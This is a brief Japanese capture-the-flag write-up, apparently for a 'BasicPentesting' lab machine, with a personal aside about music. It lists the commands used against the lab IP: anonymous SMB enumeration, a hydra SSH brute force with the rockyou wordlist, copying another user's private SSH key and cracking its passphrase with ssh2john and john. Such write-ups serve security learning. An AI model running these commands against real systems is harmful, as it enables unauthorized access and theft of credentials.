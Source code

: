 ```yaml
---
title: "BasicPentesting"
date: 2024-02-21T02:21:30+09:00
draft: false
---
```


friko, マジでアツい\
radio head でもあり bright eyes でもあり全曲の殺意がまんべんなく高い\

### enum

- 22/ssh
- 80/http
- 8009/ajp
- 8080/http-proxy

### SMB

- SMB が空いてるようだったのでログインする
  - ```enum4linux 10.10.77.150```
  - ```smbclient \\\\10.10.77.150\\Anonymous -U Anonymous```
  - ```more staff.txt```
- user name は Jan ?

### ssh

- ssh でブルートフォース
  - ```hydra -t 16 -l jan -P /usr/share/wordlists/rockyou.txt 10.10.77.150 ssh```
  - Jan じゃなくて jan なのキモすぎ，揃えてくれ
- ssh ログイン
- Kay が見つかる
- .ssh が見つかったので id_rsa を持ってきて ssh2john
  - ```scp jan@10.10.77.150:/home/kay/.ssh/id_rsa ./```
  - ```- ssh2john id_rsa > hash.txt```
  - ```john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt```
  - ```chmod 600 ./id_rsa```
  - ```ssh -i id_rsa kay@10.10.77.150```
